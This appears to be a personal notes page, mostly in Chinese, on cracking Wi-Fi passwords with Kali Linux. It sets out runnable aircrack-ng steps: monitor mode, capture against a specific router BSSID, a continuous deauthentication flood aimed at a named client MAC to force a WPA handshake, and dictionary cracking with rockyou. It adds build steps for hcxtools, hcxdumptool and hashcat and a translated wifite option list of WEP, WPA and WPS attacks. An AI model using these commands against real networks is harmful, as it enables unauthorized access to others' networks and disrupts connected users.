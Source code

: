 #### airmon-ng
[Aircrack-ng套件——無線破解原理及工具詳解](https://www.796t.com/content/1543852627.html)
```
ifconfig   #check wifi interface
sudo -i
airmon-ng start wlan0  //wlan0為前面查到的網絡卡名稱
airodump-ng wlan0mon   # 等待有人登入
# airodump-ng -c <通道> --bssid <路由ID> -w <儲存抓包的目錄名稱> <網絡卡名稱>
airodump-ng -c 3 --bssid D4:EE:07:39:F5:DE -w /root/桌面 wlan0mon
# .洪水攻擊，強制打掉重連
# aireplay-ng -0 0 -a <bssid路由ID> -c <連線wifi的mac IP> <網絡卡名>
aireplay-ng -0 0 -a D4:EE:07:39:F5:DE -c D8:5D:E2:96:AB:EB wlan0mon
#.停止攻擊
#ctrl + c當終端右上方出現：WPA握手：D8：5D：22：96：AB字樣則說明抓包完成，停止攻擊
#抓包完成可關閉監聽模式：root @ kali：〜＃airmon- ng stop wlan0mon（網絡卡名）
airmon-ng stop wlan0mon(網絡卡名)
aircrack-ng -w /usr/share/wordlists/rockyou.txt /root/桌面-1.cap
#// - a2引數：<代表WPA握手包>，可新增至命令執行
#// - w引數：指定字典檔案路徑，rockyou.txt為kali自帶字典，使用前須先解壓：
#root @ kali：〜＃gzip -d /usr/share/wordlists/rockyou.txt.gz
```
```
Aircrack- ng是評估WiFi網路安全性的一整套工具。

- Aircrack-ng無線密碼破解
- Aireplay-ng流量生成和客戶端認證
- Airodump-ng資料包捕獲
- Airbase-ng虛假接入點配置

它側重於無線網路安全的不同領域：

監控：資料包捕獲和資料匯出到文字檔案，以供工具第三方進一步處理
攻擊：通過資料包注入重播攻擊，解除身份驗證，虛假接入點等
測試：檢查無線網路卡和驅動程式功能（捕獲和注入）
破解：WEP和WPA PSK（WPA 1和2）
```
#### [Kali下用wifite破解WIFI](https://www.twblogs.net/a/5c543824bd9eee06ef364074)
#### 下載 hcxdumptool 
```
apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev libpcap-dev
git clone https://github.com/ZerBea/hcxtools
cd hcxtools
make
make install
```
#### 下載 hcxdumptool v4.2.0或更高版本
```
git clone https://github.com/ZerBea/hcxdumptool
cd hcxdumptool
make
make install
```
#### 下載 hashcat v4.2.0或更高版本
```
wget https://hashcat.net/files/hashcat-4.2.1.7z
7z x hashcat-4.2.1.7z
```
#### wifite 指令
#### [Wifite+hashcat破解WPA2 Wi-Fi密码](https://www.shenjc.net/2020/07/19/200711_kali_linux_wifi/)
```
可選參數：

-h，--help  顯示此幫助信息並退出

 

命令：

--check CHECK  檢查檢查capfile [文件]進行握手。

--cracked  顯示以前破解的接入點。

--recrack  將已破解的網絡包含在目標中。

 

全局的：

--all  攻擊所有目標。

-i INTERFACE  用於捕獲的無線接口。

--mac  匿名MAC地址。

--mon-iface MONITOR_INTERFACE  界面已經處於監視模式。

-c CHANNEL  通道掃描目標。

-e ESSID  通過ssid（name）指定一個特定的接入點。

-b BSSID  通過bssid（mac）指定特定的接入點。

--showb  掃描後顯示目標BSSID。

--nodeauth  掃描時不要取消對客戶端的驗證

- power POWER  攻擊任何信號強度> [pow]的目標。

--tx TX  設置適配器TX功率級別。

--quiet  不要在掃描期間打印AP列表。

 

WPA：

--wpa  只針對WPA網絡（使用--wps --wep）。

--wpat WPAT  等待WPA攻擊完成的時間（秒）。

--wpadt WPADT  發送deauth數據包（秒）之間的等待時間。

--strip  使用tshark或pyrit去握手。

--crack  使用[dic] wordlist文件破解WPA握手。

--dict DIC  WPA時使用的DIC Specificy字典。

--aircrack  使用aircrack驗證握手。

--pyrit  使用pyrit驗證握手。

--tshark  使用tshark驗證握手。

--cowpatty  使用cowpatty驗證握手。

 

WEP：

--wep  只針對WEP網絡。

--pps PPS  設置每秒要注入的數據包數量。

--wept WEPT 等待每次攻擊，0意味着無窮無盡。

- chopchop  使用chopchop攻擊。

--arpreplay  使用arpreplay攻擊。

--fragment  使用碎片攻擊。

- caffelatte  使用caffe-latte攻擊。

--p0841  使用P0842攻擊。

-- hirte  使用hirte攻擊。

--nofakeauth  假身份驗證失敗後停止攻擊。

--wepca WEPCA  當IVs的數量超過[n]時開始破解。

--wepsave WEPSAVE  將.cap文件的副本保存到此目錄。

 

WPS：

--wps  只針對WPS網絡。

--pixie  只能使用WPS PixieDust攻擊

--wpst WPST  最大在放棄之前等待新的重試（0：從不）。

--wpsratio  成功PIN嘗試/總重試次數的最小比率。

--wpsretry WPSRETRY  放棄之前最多同一個PIN的重試次數。
```
#### Stop wifi crack tools
* sudo airmon-ng stop wlanmon
#### Restart wlan0 connetc to WiFi
```
sudo wpa_supplicant -B -c /etc/wpa_supplicant/wpa_supplicant.conf -i wlan0
sudo dhclient wlan0
sudo ifconfig
```
